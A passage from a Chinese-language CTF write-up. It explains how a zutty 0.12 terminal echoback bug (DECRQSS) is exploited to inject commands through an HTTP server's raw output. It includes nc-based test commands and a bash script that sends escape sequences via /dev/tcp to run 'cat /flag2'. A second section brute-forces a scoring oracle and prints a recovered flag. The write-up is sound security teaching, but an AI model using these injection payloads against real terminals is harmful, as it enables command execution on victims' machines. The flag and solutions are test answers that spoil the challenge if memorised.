### 希望的终端模拟器，连接着我们的羁绊

根据本题 http 服务器的代码，它有和前面所述 `python -m http.server` 同样的漏洞，把请求的原始内容直接输出到终端里，因此我们可以利用它来向终端注入字符。

因为本题是一个旧版本的终端模拟器，因此很显然说明新版里已经修复了我们将要利用的漏洞。于是看看这个项目的 git log，找到是 0.12 到 0.13 版本之间的这个 commit 修复了一个漏洞：[Do not echo invalid input on DECRQSS (Request Status String)](https://github.com/tomscii/zutty/commit/bde7458c60a7bafe08bbeaafbf861eb865edfa38)。其实后来发现上面那篇 2023 年的文章就直接提到了 zutty 的这个 full echoback 漏洞。

阅读 commit message 里提到的 debian 的那个 bug 报告，看到其中提到了一个简单的 POC：`echo -ne '\eP$q\nbad-command\n\e\\'`，于是尝试本地复现。

编译运行 zutty 0.12，然后在终端里运行 netcat 来模拟受害程序以方便测试：

```shell
nc -l 5000 </dev/null
```

然后从另一个终端运行：

```shell
echo -en '\eP$q\necho hello\n\e\\' | timeout 1 nc localhost 5000
```

再回到 zutty，就能看到终端上运行了 `echo hello`。

<details><summary>（一点碎碎念，点击展开）</summary></details>

那么下一步就是如何让 http 服务器退出，前面看了半天代码也没找到如何让 rust 代码 panic。不过后来转念一想，我既然都能通过终端注入字符了，那为何不注入 CTRL-C 呢？本地尝试了一下不知道为何没能成功注入 CTRL-C，不过换成 CTRL-\\ 就可以了，它对应的控制字符是 `\x1c`。

另外，题目里的 rust 代码会按行分割输入，那么如何注入换行符呢？查阅 rust 的 [`str.lines` 的文档](https://doc.rust-lang.org/std/primitive.str.html#method.lines)得知，它的行为和 python 不同，它不会拆分单独出现的回车符 `\r`，因此我们可以用 `\r` 来代替 `\n`。

最终的脚本是：

```bash
#!/bin/bash
echo -e '\eP$q\x1c\rcat /flag2 > /dev/shm/flag2\r\e\\' >/dev/tcp/127.0.0.1/8000
sleep 2
cat /dev/shm/flag2
```

## 第25题：禁止内卷

阅读代码，发现题目会返回你的分数与每一项预期分数之差的平方之和，因此尝试暴力穷举，每一项从 0 开始往上依次尝试，当遇到返回值开始增加的时候，就说明上一个猜测值是与题目预期分数完全匹配的。解码出 flag，可以得到：

```
flag{unoAAAA_esrever_now_U_run_MY_cAdecfAAAaAAAf}
```

[查看完整代码](./src/q25_禁止内卷/guess_flag.py)

但是这里有很多字母 `A`，是因为题目代码里对 `answers.json` 的数据做了一下处理，把小于 0 的数都改成了 0，而我们需要获取的是未经修改的原始值。

```python
with open("answers.json") as f:
    answers = json.load(f)
    # sanitize answer
    for idx, i in enumerate(answers):
        if i < 0:
            answers[idx] = 0
```
